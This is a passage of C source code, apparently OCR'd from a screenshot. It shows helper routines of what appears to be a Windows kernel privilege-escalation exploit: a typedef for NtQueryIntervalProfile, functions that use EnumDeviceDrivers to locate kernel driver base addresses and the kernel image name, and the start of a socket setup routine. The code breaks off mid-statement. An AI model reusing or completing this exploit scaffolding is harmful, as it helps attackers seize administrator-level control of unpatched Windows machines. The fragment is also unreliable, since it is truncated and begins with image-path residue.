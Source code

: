     ProfileTotalCycles,
    ProfileIcacheIssues,
    ProfileDcacheAccesses,
    ProfileMemoryBarrierCycles,
    ProfileLoadLinkedIssues,
    ProfileMaximum
} KPROFILE_SOURCE, *PKPROFILE_SOURCE;

typedef DWORD (WINAPI *_NtQueryIntervalProfile)( KPROFILE_SOURCE ProfileSource, PULONG Interval );

LPVOID findSysBase(char* driver){
	LPVOID drivers[DRIVERCOUNT];
	DWORD cbNeeded;
	CHAR driverName[DRIVERNAMESIZE];
	DWORD index;
	DWORD driverCount;

	if(EnumDeviceDrivers(drivers,DRIVERCOUNT,&cbNeeded) && cbNeeded<DRIVERCOUNT){
		
		driverCount = cbNeeded /sizeof(drivers[0]);

		for(index=0;index<driverCount;index++){
			memset(driverName,0,DRIVERNAMESIZE);
			if(GetDeviceDriverBaseNameA(drivers[index],driverName,DRIVERNAMESIZE)>0){
				if(!stricmp(driver, driverName)){
					return drivers[index];
				}
			}
		}
	}

	return NULL;
}

char* findKernelVersion(){
	LPVOID drivers[DRIVERCOUNT];
	DWORD cbNeeded;
	DWORD index;
	DWORD driverCount;

	char* driverName = (char*)calloc(DRIVERNAMESIZE,sizeof(CHAR));

	if(EnumDeviceDrivers(drivers,DRIVERCOUNT,&cbNeeded) && cbNeeded<DRIVERCOUNT){		
		driverCount = cbNeeded /sizeof(drivers[0]);
		for(index=0;index<driverCount;index++){
			memset(driverName,0,DRIVERNAMESIZE);
			if(GetDeviceDriverBaseNameA(drivers[index],driverName,DRIVERNAMESIZE)>0){
				if(strstr(driverName,"krnl")){
					return driverName;
				}
			}
		}
	}
	return NULL;
}

int prepareAndConnectSocket(){

	WSADATA wsaData;
	int sock;
    struct sockaddr_in address;

	if (WSAStartup(0x202, &wsaData) != 0)
    {
        fprintf(stderr, "WSAStartup() failed");
        exit(1);
    }

	if ((sock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP,NULL,NULL,NULL)) == INVALID_SOCKET ){